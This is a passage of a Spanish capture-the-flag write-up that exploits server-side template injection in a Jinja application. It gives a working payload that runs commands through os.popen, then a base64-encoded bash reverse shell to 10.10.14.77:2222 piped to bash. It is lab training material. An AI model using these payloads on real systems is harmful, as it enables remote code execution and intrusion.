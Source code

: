 ![SSTI test](/secciones/posts/imagenes/goodgames/target1.webp)

## Identificación del motor de plantillas

Ahora necesitamos encontrar qué motor de plantilla está usando. Para hacerlo, podemos verificar con la carga útil `{% raw %}{{7*'7'}}{% endraw %}`:

- Si devuelve el resultado 49, eso significa que está usando Twig
- Si devuelve 7777777, entonces está usando Jinja

Es Jinja. Ahora necesitamos buscar la carga útil para ejecutar el comando:

```python
{% raw %}{% raw %}{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}{% endraw %}{% endraw %}
```

## Obtención de shell reverso

Con esta carga útil, admite comandos de shell. Esta aplicación está alojada en un contenedor Docker. Usando bash shell reverso, podemos obtener un shell convirtiendo primero la carga útil del shell reverso a base64:

```bash
echo "bash -i >& /dev/tcp/10.10.14.77/2222 0>&1" | base64
```

**Payload final:**
```python
{% raw %}{% raw %}{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43Ny8yMjIyIDA+JjEK" |base64 -d| bash').read() }}{% endraw %}{% endraw %}
```
